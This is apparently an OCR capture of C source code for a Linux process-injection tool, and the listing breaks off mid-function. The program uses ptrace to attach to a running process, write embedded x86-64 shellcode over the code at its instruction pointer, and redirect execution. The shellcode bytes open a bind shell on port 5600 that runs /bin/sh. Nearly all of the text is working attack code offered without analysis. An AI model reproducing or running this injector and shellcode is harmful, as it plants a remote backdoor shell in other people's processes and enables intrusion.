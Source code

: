 ```c
unsigned char *shellcode = "\x48\x31\xc0\x48\x31\xd2\x48\x31\xf6\xff\xc6\x6a\x29\x58\x6a\x02\x5f\x0f\x05\x48\x97\x6a\x02\x66\xc7\x44\x24\x02\x15\xe0\x54\x5e\x52\x6a\x31\x58\x6a\x10\x5a\x0f\x05\x5e\x6a\x32\x58\x0f\x05\x6a\x2b\x58\x0f\x05\x48\x97\x6a\x03\x5e\xff\xce\xb0\x21\x0f\x05\x75\xf8\xf7\xe6\x52\x48\xbb\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x53\x48\x8d\x3c\x24\xb0\x3b\x0f\x05";

int inject_data(pid_t pid, unsigned char *src, void *dst, int len)
{
int i;
uint32_t *s = (uint32_t *)src;
uint32_t *d = (uint32_t *)dst;

for (i = 0; i < len; i += 4, s++, d++)
{
if ((ptrace(PTRACE_POKETEXT, pid, d, *s)) < 0)
{
perror("ptrace(POKETEXT):");
return -1;
}
}
return 0;
}

int main(int argc, char *argv[])
{
pid_t target;
struct user_regs_struct regs;
int syscall;
long dst;
if (argc != 2)
{
fprintf(stderr, "Usage:\n\t%s pid\n", argv[0]);
exit(1);
}

target = atoi(argv[1]);
printf("+ Tracing process %d\n", target);

if ((ptrace(PTRACE_ATTACH, target, NULL, NULL)) < 0)
{
perror("ptrace(ATTACH):");
exit(1);
}
printf("+ Waiting for process...\n");
wait(NULL);
printf("+ Getting Registers\n");

if ((ptrace(PTRACE_GETREGS, target, NULL, &regs)) < 0)
{
perror("ptrace(GETREGS):");
exit(1);
}

/* Inject code into current RPI position */

printf("+ Injecting shell code at %p\n", (void *)regs.rip);
inject_data(target, shellcode, (void *)regs.rip, SHELLCODE_SIZE);
regs.rip += 2;
printf("+ Setting instruction pointer to %p\n", (void *)regs.rip);

if ((ptrace(PTRACE_SETREGS, target, NULL, &regs)) < 0)
{
perror("ptrace(GETREGS):");
exit(1);
```